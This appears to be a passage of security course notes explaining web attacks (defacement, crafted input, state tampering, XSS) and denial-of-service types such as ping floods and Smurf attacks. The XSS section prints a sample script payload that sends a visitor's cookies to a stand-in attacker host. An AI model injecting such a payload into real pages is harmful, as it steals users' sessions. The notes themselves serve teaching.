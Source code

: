 #### 2. Web Site Defacement
- Modifying the visual appearance of a website.

#### 3. Crafting Malicious URLs/Input
- Sending specially crafted requests to the web server to:
    -   Exploit **buffer overflows** in the server software.
    -   Invoke a **shell** or other programs on the server.
    -   Feed malicious input to **server-side scripts** (e.g., `SQL` Injection).
    -   Access sensitive files via **directory traversal** (`../`).
    -   Compose URLs different from those intended by the application logic.

#### 4. State Modification
- `HTTP` is stateless; state is often maintained via cookies or URL parameters (e.g., `?clientId=4342`). Attackers can try to **modify this state information** to gain unauthorized access or impersonate others.

#### 5. Cross-Site Scripting (XSS)
-   **Attack:** Attacker injects **malicious script code** (e.g., `JavaScript`) into a web page that is then viewed by other users.
-   **Mechanism:** Often via input fields like comment sections, forums, profile details. The website improperly validates/sanitizes the input and includes the script in the page served to others.
-   **Impact:** The script executes in the victim's browser context, allowing the attacker to steal cookies, hijack sessions, redirect users, display fake content, etc.
-   `[🌍 Real-World Example/Application]: Injecting `<script>document.location='http://attacker.com/steal?cookie='+document.cookie</script>` into a blog comment.`

**[Section Takeaway]:** Web applications are complex and prone to various vulnerabilities, including input validation errors (`XSS`, `SQLi`), logic flaws, and information exposure.

---

### K. Denial of Service (DoS) & Distributed DoS (DDoS)

-   Attacks aimed at making a service or resource unavailable to legitimate users.

#### 1. Physical
- Cutting wires, jamming wireless signals.

#### 2. Flooding / Overloading
- Overwhelming a node's resources:
    -   **Bandwidth:** Sending more traffic than its internet connection can handle.
    -   **Processing Capacity:** Sending requests that consume excessive CPU or memory.

#### 3. Ping Flood
- Overloading a victim by sending numerous `ICMP` Echo Request ("ping") packets, forcing the victim to generate replies. (`Ping of Death` was different - a malformed packet that crashed older systems).

#### 4. Smurf Attack (Amplification Attack)
- Sending ping requests to a network's broadcast address with the **source `IP` spoofed** to be the victim's address. All nodes on the broadcast network reply to the victim, amplifying the flood. (Largely mitigated now).
